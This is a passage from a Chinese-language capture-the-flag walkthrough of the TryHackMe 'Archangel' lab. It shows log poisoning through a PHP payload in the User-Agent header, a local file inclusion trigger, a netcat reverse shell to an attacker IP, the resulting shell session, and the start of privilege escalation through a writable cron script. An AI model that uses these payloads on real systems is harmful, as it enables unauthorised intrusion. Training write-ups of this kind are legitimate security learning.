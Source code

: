 GET /test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log HTTP/1.1
Host: mafialive.thm
User-Agent: "<?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.21.169 4444 >/tmp/f') ?>"
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

## 开启监听
```nc -lnvp 4444```

## 触发
```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log
```

## 接收到反弹shell
```
┌──(root💀kali)-[~/tryhackme/Archangel]
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.13.21.169] from (UNKNOWN) [10.10.228.134] 54296
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
$ ls
index.html
mrrobot.php
robots.txt
test.php
$ cd /home
$ ls
archangel
$ cd archangel
$ ls
myfiles
secret
user.txt

```

拿到user.txt
同文件夹，secret文件没有读权限，myfiles文件夹里有个密码文件，文件内容又是youtube里那个不要放弃（又名：逗你玩儿）的视频

# 提权到archangel
传linpeas发现有一个archangel的定时任务，这个文件还是可写的
```
www-data@ubuntu:/var/www/html/development_testing$ cat /opt/helloworld.sh
cat /opt/helloworld.sh
#!/bin/bash
echo "hello world" >> /opt/backupfiles/helloworld.txt
www-data@ubuntu:/var/www/html/development_testing$ ls -alh /opt/helloworld.sh
ls -alh /opt/helloworld.sh
-rwxrwxrwx 1 archangel archangel 66 Nov 20  2020 /opt/helloworld.sh
